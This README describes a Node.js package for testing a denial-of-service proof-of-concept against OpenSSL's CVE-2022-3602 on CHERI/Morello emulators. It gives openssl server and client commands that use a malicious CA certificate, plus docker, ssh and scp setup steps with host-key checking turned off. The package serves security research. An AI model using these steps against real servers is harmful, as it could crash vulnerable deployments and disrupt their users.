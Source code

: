 # OpenSSL Vulnerability PoC

Node.JS functions for testing a Denial-of-Service (DoS) attack on OpenSSL
exploiting [CVE-2022-3602](https://nvd.nist.gov/vuln/detail/CVE-2022-3602).

These functions are adapted from the
[malicious client scenario in DataDog/security-labs-pocs@d25e1ac][1]

[1]: https://github.com/DataDog/security-labs-pocs/tree/d25e1ac3a240489cda949114c732793685a1fae6/proof-of-concept-exploits/openssl-punycode-vulnerability/malicious_client

## Usage

These are currently only mocked functions, so the API may change in the future.

```javascript
import {
  MorelloPurecapOpenSSLTestCase,
  MorelloHybridOpenSSLTestCase,
} from "@nqminds/openssl-vuln-poc";

import {DockerServer} from "@nqminds/openssl-vuln-poc/src/docker.mjs";

// These are the credentials of a local morello server running
// in a docker container
const sshOptions = {
  username: "root",
  host: "127.0.0.2",
  port: 2224,
};

const dockerServer = new DockerServer({
  port: sshOptions.port,
});
// ~will take hours to download on the first time~
// Use `podman pull docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511`
// to view progress.
// next times should take a few minutes to startup
await dockerServer.setup({quiet = false});

// or use MorelloHybridOpenSSLTestCase
const testCase = new MorelloPurecapOpenSSLTestCase({
  sshOpts: sshOptions,
});

// installs vulnerable OpenSSL versions, and caches
// `ssh` connection for 60 minutes for faster tests
await testCase.setup();

// run your tests as many times as you want
// (MorelloHybridcapOpenSSLTestCase can use the same connection)
const res = await testCase.run();
console.log(`Server output error logs were: ${res.server.stderr}`);

await dockerServer.stop();
```

## Bash scripts to implement in JavaScript

### Server

```bash
openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem  -state -verify 1
```

Results:

- Safe: Server stays active.
- Vulnerable (CHERI Hybrid): malicious payload runs and calls `Abort()`
  - Exit code: 0x86 (`SIGTRAP`)
- Vulnerable (CHERI Purecap): malicious payload is caught by CPU and is killed with `In-address space security exception (core dumped)`
  - Exit code: 0xA2 (`SIGPROT`)

## Client

```bash
openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem  -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state
```

## Running docker commands manually

The following commands should be run automatically by the Node.JS code:

```bash
podman run -it --user root --rm --publish 127.0.0.2:2222:2222/tcp docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511 bash -c $'
#!/usr/bin/env bash

set +e # exit on error

su --command \'mkdir /home/ubuntu/.ssh && printf "%s" "$1" > /home/ubuntu/.ssh/cheribsd-ssh-key.pub\' -- ubuntu "n/a" "$1"

# pipes everything on port 2222 to `localhost:2223`
# This is so that we can access the SSH server from outside the docker container
apt-get update && apt-get install socat --yes
socat tcp-listen:2222,reuseaddr,fork tcp:localhost:2223 &

su --command \'cd /home/ubuntu/cheribuild && ./cheribuild.py --run/ephemeral --run/ssh-forwarding-port 2223 disk-image-morello-purecap run-morello-purecap --skip-update\' -- ubuntu

# wait for socat to finish running
wait
' "arg0 (unused)" "$(cat ~/.ssh/id_ed25519.pub)"
```

Wait the ~2/3 minutes the above command will take until you get into a CHERIBSD shell.
Then you can run `pkg64c install --yes openssl-devel-3.0.2` and `pkg64 install --yes openssl-devel-3.0.2`.

Finally, you can run the following `scp` command to copy over the malicious OpenSSL certificates:

```bash
scp -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -r ./certs scp://root@127.0.0.2:2222/
```

### Server

#### Hybrid

(For `purecap`, use `/usr/local/bin/openssl`)

```bash
ssh -o RequestTTY=force -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"/usr/local64/bin/openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem -state -verify 1; exit $?"'
```

### Client

```bash
ssh -o RequestTTY=force -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state; exit $?"'
```
